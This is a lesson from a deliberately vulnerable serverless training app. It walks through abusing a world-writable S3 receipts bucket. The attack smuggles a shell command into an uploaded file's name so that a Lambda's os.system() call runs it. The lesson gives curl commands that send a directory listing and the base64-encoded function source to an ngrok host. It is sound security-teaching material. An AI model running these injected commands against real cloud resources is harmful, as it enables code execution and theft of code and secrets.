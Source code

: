 
# LESSON #4: Insecure Cloud Configuration

The DVSA is using cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipts is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-sdk, you can simply run the command: ```aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}```

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run ```ls``` with an account different thatn the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receript-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. 2018/12/24/{receipt-uuid}.txt.

2. So let's fake a receipt and see what happens. Using the aws-sdk we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: ```echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py```

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/LESSON_05.md) or executing any other command.





